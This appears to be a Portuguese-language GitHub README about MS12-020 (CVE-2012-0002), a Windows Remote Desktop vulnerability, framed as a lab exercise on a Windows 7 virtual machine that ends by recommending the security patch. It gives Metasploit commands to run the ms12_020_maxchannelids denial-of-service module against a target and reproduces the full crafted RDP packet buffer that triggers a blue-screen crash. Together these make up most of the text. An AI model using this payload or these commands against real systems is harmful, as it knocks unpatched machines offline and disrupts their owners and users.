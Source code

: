 # Exploring-MS12-020 / CVE-2012-0002

***"The Microsoft Remote Desktop Protocol (RDP) provides remote display
and input capabilities over network connections for Windows-based
applications running on a server. RDP is designed to support different
types of network topologies and multiple LAN protocols."***

 - O RDP é usado pelo "Terminal Services e Remote Desktop Services" e
   funciona no nível de kernel na porta 3389.
   
  - Existe uma vulnerabilidade que ocorre no manuseio do apontador
   pendente no campo maxChannelsIds do pacote T.125 ConnectMCSPDU que
   fica nesse estado de vulnerabilidade quando setado para menor/igual ao número 5.
   
  - Observe que nas versões do Windows pós-Vista (como 7 e 2008) "parece"
   necessário ter "Permitir conexões de computadores executando qualquer
   versão da área de trabalho remota "por ser vulnerável.
   
   - A code-exec ocorre durante a desconexão usuário. A capacidade de
   exploração depende da possibilidade de controlar o ESI ou o conteúdo
   apontado por ele.

![](https://ifconfig.dk/wp-content/uploads/2014/02/RDPkill1.png)

# Metasploit 

```console
root@kali# msfconsole

msf5 > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set RHOSTS 192.168.X.X
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > run
```

A máquina Windows será paralisada, causando a famosa "TELA AZUL DA MORTE"

# Instalações
Para entender como criar e instalar uma VM com o SO - Win 7, recomendo acessar o seguinte link: [https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/](https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/) 

E para fazer a instalação do VirtualBox :
[https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads) 


# Código

O buffer que deve ser adicionado é o seguinte:

```ruby
pkt = ''+
      "\x03\x00\x00\x13" +  # TPKT: version + length
      "\x0E\xE0\x00\x00" +  # X.224 (connection request)
      "\x00\x00\x00\x01" +
      "\x00\x08\x00\x00" +
      "\x00\x00\x00"     +
      "\x03\x00\x00\x6A" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224 (connect-initial)
      "\x7F\x65\x82\x00" +  # T.125
      "\x5E"             +
      "\x04\x01\x01"     +  # callingDomainSelector
      "\x04\x01\x01"     +  # calledDomainSelector
      "\x01\x01\xFF"     +  # upwardFlag
      "\x30\x19"         +  # targetParameters
      max_channel_ids    +  # maxChannelIds
      "\x02\x01\xFF"     +  # maxUserIds
      "\x02\x01\x00"     +  # maxTokenIds
      "\x02\x01\x01"     +  # numPriorities
      "\x02\x01\x00"     +  # minThroughput
      "\x02\x01\x01"     +  # maxHeight
      "\x02\x02\x00\x7C" +  # maxMCSPDUsize
      "\x02\x01\x02"     +  # protocolVersion
      "\x30\x19"         +  # minimumParameters
      max_channel_ids    +  # maxChannelIds
      "\x02\x01\xFF"     +  # maxUserIds
      "\x02\x01\x00"     +  # maxTokenIds
      "\x02\x01\x01"     +  # numPriorities
      "\x02\x01\x00"     +  # minThroughput
      "\x02\x01\x01"     +  # maxHeight
      "\x02\x02\x00\x7C" +  # maxMCSPDUsize
      "\x02\x01\x02"     +  # protocolVersion
      "\x30\x19"         +  # maximumParameters
      max_channel_ids    +  # maxChannelIds
      "\x02\x01\xFF"     +  # maxUserIds
      "\x02\x01\x00"     +  # maxTokenIds
      "\x02\x01\x01"     +  # numPriorities
      "\x02\x01\x00"     +  # minThroughput
      "\x02\x01\x01"     +  # maxHeight
      "\x02\x02\x00\x7C" +  # maxMCSPDUsize
      "\x02\x01\x02"     +  # protocolVersion
      "\x04\x82\x00\x00" +  # userData
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x0C" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x38\x00\x06\x03" +  # T.125
      "\xF0"             +
      "\x03\x00\x00\x09" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x21\x80"            # T.125
```
Por fim, a instalação da atualização de segurança KB2621440 através da atualização do Windows fecha a vulnerabilidade. Com isso, espero que prove meu ponto de sempre manter seu sistema atualizado.
